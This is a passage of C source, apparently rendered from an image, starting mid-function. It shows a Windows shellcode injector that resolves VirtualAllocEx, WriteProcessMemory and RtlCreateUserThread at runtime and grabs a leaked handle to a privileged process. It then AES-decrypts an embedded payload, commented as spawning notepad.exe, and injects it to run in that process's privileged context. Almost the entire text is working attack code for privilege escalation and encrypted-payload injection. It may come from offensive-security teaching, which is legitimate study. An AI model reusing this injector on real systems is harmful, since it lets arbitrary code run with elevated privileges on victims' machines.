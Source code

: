 ```c
HANDLE hThread = NULL;
BOOL bStatus = FALSE;

pVirtualAllocEx = GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx");
pWriteProcessMemory = GetProcAddress(GetModuleHandle("kernel32.dll"), "WriteProcessMemory");
pRtlCreateUserThread = GetProcAddress(GetModuleHandle("ntdll.dll"), "RtlCreateUserThread");

pRemoteCode = pVirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
pWriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);

bStatus = (BOOL) pRtlCreateUserThread(hProc, NULL, 0, 0, 0, 0, pRemoteCode, NULL, &hThread, NULL);
if (bStatus != FALSE) {
WaitForSingleObject(hThread, -1);
CloseHandle(hThread);
return 0;
}
else
return -1;
}

int main(int argc, char **argv) {

int pid = 0;
HANDLE hProc = NULL;

// AES encrypted shellcode spawning notepad.exe (ExitThread)
char key[] = { 0x49, 0xbc, 0xa5, 0x1d, 0xa7, 0x3d, 0xd6, 0x0, 0xee, 0x2, 0x29, 0x3e, 0x9b, 0xb2, 0x8a, 0x69 };
unsigned char payload[] = { 0x6b, 0x98, 0xe8, 0x38, 0xaf, 0x82, 0xdc, 0xd4, 0xda, 0x57, 0x15, 0x48, 0x2f, 0xf0, 0x4e, 0xd3, 0x1a, 0x70, 0x6d, 0xbf, 0x53, 0xa8, 0xcb, 0xbb, 0xbb, 0x38, 0xf6, 0x4e, 0xee, 0x84, 0x36, 0xe5, 0x25, 0x76, 0xce, 0xb0, 0xf6, 0x39, 0x22, 0x76, 0x36, 0x3c, 0xe1, 0x13, 0x18, 0x9d, 0xb1, 0x6e, 0x0, 0x55, 0x8a, 0x4f, 0xb8, 0x2d, 0xe7, 0x6f, 0x91, 0xa8, 0x79, 0x4e, 0x34, 0x88, 0x24, 0x61, 0xa4, 0xcf, 0x70, 0xdb, 0xef, 0x25, 0x96, 0x65, 0x76, 0x7, 0xe7, 0x53, 0x9, 0xbf, 0x2d, 0x92, 0x25, 0x4e, 0x30, 0xa, 0xe7, 0x69, 0xaf, 0xf7, 0x32, 0xa6, 0x98, 0xd3, 0xbe, 0x2b, 0x8, 0x90, 0x0, 0x9e, 0x3f, 0x58, 0xed, 0x21, 0x69, 0xcb, 0x38, 0x5d, 0x5e, 0x68, 0x5e, 0xb9, 0xd6, 0xc5, 0x92, 0xd1, 0xaf, 0xa2, 0x5d, 0x16, 0x23, 0x48, 0xbc, 0xdd, 0x2a, 0x9f, 0x3c, 0x22, 0xdb, 0x19, 0x24, 0xdf, 0x86, 0x4a, 0xa2, 0xa0, 0x8f, 0x1a, 0xe, 0xd6, 0xb7, 0xd2, 0x6c, 0x6d, 0x90, 0x55, 0x3e, 0x7d, 0x9b, 0x69, 0x87, 0xad, 0xd7, 0x5c, 0xf3, 0x1, 0x7c, 0x93, 0x1d, 0xaa, 0x40, 0xf, 0x15, 0x48, 0x5b, 0xad, 0x6, 0xb5, 0xe5, 0xb9, 0x92, 0xae, 0x9b, 0xdb, 0x9a, 0x9b, 0x4e, 0x44, 0x45, 0xdb, 0x9f, 0x28, 0x90, 0x9e, 0x63, 0x23, 0xf2, 0xca, 0xab, 0xa7, 0x68, 0xbc, 0x31, 0xb4, 0xf9, 0xbb, 0x73, 0xd4, 0x56, 0x94, 0x2c, 0x63, 0x47, 0x21, 0x84, 0xa2, 0xb6, 0x91, 0x23, 0x8f, 0xa0, 0x46, 0x76, 0xff, 0x3f, 0x75, 0xd, 0x51, 0xc5, 0x70, 0x26, 0x1, 0xcf, 0x23, 0xbf, 0x97, 0xb2, 0x8d, 0x66, 0x35, 0xc8, 0xe3, 0x2, 0xf6, 0xbd, 0x44, 0x83, 0xf2, 0x80, 0x4c, 0xd0, 0x7d, 0xa3, 0xbd, 0x33, 0x8e, 0xe8, 0x6, 0xbc, 0xdc, 0xff, 0xe0, 0x96, 0xd9, 0xdc, 0x87, 0x2a, 0x81, 0xf3, 0x53, 0x37, 0x16, 0x3a, 0xcc, 0x3c, 0x34, 0x4, 0x9c, 0xc6, 0xbb, 0x12, 0x72, 0xf3, 0xa3, 0x94, 0x5d, 0x19, 0x43, 0x56, 0xa8, 0xba, 0x2a, 0x1d, 0x12, 0xeb, 0xd2, 0x6e, 0x79, 0x65, 0x2a };
unsigned int payload_len = sizeof(payload);

printf("My PID: %d\n", GetCurrentProcessId());
getchar();

// find a leaked handle to a process
hProc = GetVulnProcHandle();

if ( hProc != NULL) {

// d#Decrypt payload
AESDecrypt((char *) payload, payload_len, key, sizeof(key));
printf("[+] Sending gift...");
// Inject and run the payload in the privileged context
Inject(hProc, payload, payload_len);
printf("done.\n");
}
```